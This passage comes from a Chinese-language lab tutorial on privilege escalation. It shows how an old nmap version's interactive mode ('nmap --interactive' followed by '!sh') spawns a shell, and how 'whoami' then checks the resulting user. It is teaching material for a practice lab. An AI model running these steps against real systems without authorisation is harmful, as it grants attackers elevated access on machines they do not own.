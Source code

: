 
注意单词的拼写，特别是 `nmap`。


### 4.2 使用 nmap 进行提权

该版本的 nmap 也是一个非常老的版本，通过 nmap 选项，能够让用户执行 Shell 命令，在终端中，我们输入如下命令：

```
# 让用户自行 Shell 命令
/usr/bin/nmap --interactive
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480406522209.png-wm)

接着在命令终端中，输入如下命令：

```
#  输入!sh 进行提权
nmap> !sh 
```

接着 `nmap>` 消失，此时，再次使用 `whoami` 命令查看当前用户是谁：

```
# 查看当前的用户是谁
whoami
```

![图片描述](../imgs/1480406813156.png-wm.png)
